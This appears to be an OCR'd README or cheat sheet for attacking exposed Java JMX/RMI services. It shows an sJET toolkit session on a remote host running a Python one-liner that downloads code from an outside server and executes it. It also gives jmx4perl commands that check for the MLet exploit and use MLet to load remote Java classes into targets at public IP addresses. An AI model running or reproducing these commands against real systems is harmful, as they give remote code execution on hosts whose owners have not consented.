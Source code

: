 
        [+] Done
        sJET - siberas JMX Exploitation Toolkit
        =======================================
        [+] Connecting to: service:jmx:rmi:///jndi/rmi://159.69.178.36:1099/jmxrmi
        2019-03-16 06:54:15+0100 [-] Connection made to RedirectRx
        [+] Connected: rmi://185.189.112.19  3
        [+] Use command 'exit_shell' to exit the shell
        >>> 
        [+] Loaded de.siberas.lab.SiberasPayload
        [+] Executing command: 


        >>> python -c "import urllib;exec urllib.urlopen(''http://konde.diskstation.me:8000/dead/oUxhFeeJe8'').read()"
        [+] Loaded de.siberas.lab.SiberasPayload
        [+] Executing command: python -c "import urllib;exec urllib.urlopen(''http://konde.diskstation.me:8000/dead/oUxhFeeJe8'').read()"


        >>> python -c "import urllib;exec urllib.urlopen('http://konde.diskstation.me:8000/dead/oUxhFeeJe8').read()"
        [+] Loaded de.siberas.lab.SiberasPayload
        [+] Executing command: python -c "import urllib;exec urllib.urlopen('http://konde.diskstation.me:8000/dead/oUxhFeeJe8').read()"




Install 
-----------


    cpanm install -n Term::ReadKey 
    cpanm PJB/Term-Clui-1.70.tar.gz
    cpanm install \
    JSON::XS \
    Term::ReadLine::Gnu \
    LWP::Protocol::https \
    XML::LibXML
    cpanm -nf JMX::Jmx4Perl 

SSL/Proxy Bypass
--------------------
* Easy with [jolokia](https://jolokia.org/reference/html/index.html)

      jmx4perl 'http://172.93.48.216:9000/jolokia' --target service:jmx:rmi:///jndi/rmi://221.228.205.175:1099/jmxrmi list   

* Check for "jmxrmi" exploit

      jmx4perl 'http://172.93.48.216:9000/jolokia' --target service:jmx:rmi:///jndi/rmi://94.130.168.200:1099/jmxrmi list DefaultDomain:type=MLet

* Remote Java Classloading with MLet

      jmx4perl "http://172.17.0.1:8088/jolokia" --target 'service:jmx:rmi:///jndi/rmi://112.74.22.227:1099/jmxrmi' exec 'DefaultDomain:type=MLet' 'getMBeansFromURL(java.lang.String)' "http://162.210.173.220:8080/mlet/"
      